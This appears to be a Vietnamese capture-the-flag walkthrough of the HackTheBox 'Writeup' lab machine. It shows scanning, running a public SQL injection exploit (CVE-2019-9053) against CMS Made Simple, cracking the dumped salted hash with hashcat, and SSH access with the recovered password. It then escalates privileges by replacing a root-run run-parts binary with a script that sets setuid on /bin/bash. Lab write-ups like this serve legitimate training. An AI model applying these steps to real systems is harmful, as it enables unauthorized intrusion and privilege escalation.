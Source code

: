 - Ip: 10.10.10.138
- Scan xem có gì: nmap -T4 -sV 10.10.10.138
![Image 1](image/image1.png)

- nmap -T4 -sC  10.10.10.138

    ![Image 2](image/image2.png)

- Có cổng 20 và cổng 80 mở 
![Image 3](image/image3.png)

- Truy cập vào website, đọc thì thấy web được bảo vệ bởi công nghệ chống dos, không dùng dirsearch được. 
- Scan cổng 80: thử truy cập http://10.10.10.138/writeup.
![Image 4](image/image4.png)
- Có nội dung trong đấy 
- Inspect ra xem 
![Image 5](image/image5.png)
```
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```
- Phiên bản CMS made simple 2019 search xem có lỗ hổng nào không: CVE:2019-9053
<a href="https://www.exploit-db.com/exploits/46635">Exploit  CVE-2019-9053</a>
- Sau khi tải xuống 46635 
- Chạy lệnh: python2 46635 -u http://10.10.10.138/writeup/  Để khai thác 

![Image 6](image/image7.png)
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr5u
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
- Có vẻ không crack được dùng hashcat vậy.
```
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash 
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt
(20 | md5($salt.$pass)          Raw Hash salted and/or iterated)
```
![Image 7](image/image8.png)

- pass: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
- sau khi crack được: kết nối ssh với username: jkr pass:  raykayjay9
- Ra được flag user 
![Image 8](image/image9.png)
- flag user: 68a7de4f87fb76791e79057ccf57176b
- sau khi lấy được flag user, tiến hành nâng quyền root
![Image 9](image/image10.png)
- jkr thuộc nhóm người dùng staff, nhóm này có quyền thêm sửa usr/local/ mà không cần quyền root.
<a href="https://wiki.debian.org/SystemGroups">System Groups</a>
- Tiến hành bắt tiến trình xem có gì thuộc usr/local đang chạy không. 
<a href="https://github.com/DominicBreuker/pspy">pspy</a>
- dùng lệnh scp pspy32 jkr@10.10.10.138:/tmp để tải file pspy lên 
![Image 10](image/image11.png)
- Vào tmp cấp quyền thực thi rồi chạy ./pspy32.
![Image 11](image/image12.png)
- tiến hành đăng nhập ssh ở một terminal khác.
```
2024/08/05 05:12:01 CMD: UID=0    PID=2811   | sshd: [accepted]  
2024/08/05 05:12:16 CMD: UID=0    PID=2812   | sshd: jkr [priv]  
2024/08/05 05:12:16 CMD: UID=0    PID=2813   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2024/08/05 05:12:16 CMD: UID=0    PID=2814   | run-parts --lsbsysinit /etc/update-motd.d 
2024/08/05 05:12:16 CMD: UID=0    PID=2815   | /bin/sh /etc/update-motd.d/10-uname 
2024/08/05 05:12:16 CMD: UID=0    PID=2816   | sshd: jkr [priv]  
2024/08/05 05:12:17 CMD: UID=1000 PID=2817   | sshd: jkr@pts/1   

```
- Để ý thấy có run-part đang chạy. Mà thuộc /usr/local mà saff có quyền chỉnh sửa. Sửả nó :))) 
- Jkr thuộc nhóm staff mà staff có quyền chỉnh sửa usr/local. Đường dẫn của run-parts là usr/local/bin/run-parts.
- Ta sử dụng shellbash để mở kết nối từ máy victim đến máy attack.
- cd usr/local/bin/run-parts
- nano run-parts
    #!/bin/bash
    
    chmod u+s /bin/bash
- Cấp quyền /bin/bash cho  u: owner, s = setuid
- Lưu lại và cấp quyền thực thi cho run-parts
    ![Image 12](image/image14.png)
- Trên máy tấn công: đăng nhập ssh 1 lần nữa
    ![Image 13](image/image15.png)
- Xem quyền /bin/bash: có quyền s
- Sử dụng /bin/bash -p để vào shellbash giữ nguyên quyền ưu tiên
- Jkr đã thuộc nhóm root
- cd vào thư mục root để đọc root.txt
flag: 6cc08f85c8664c41b03fc746fced2fca

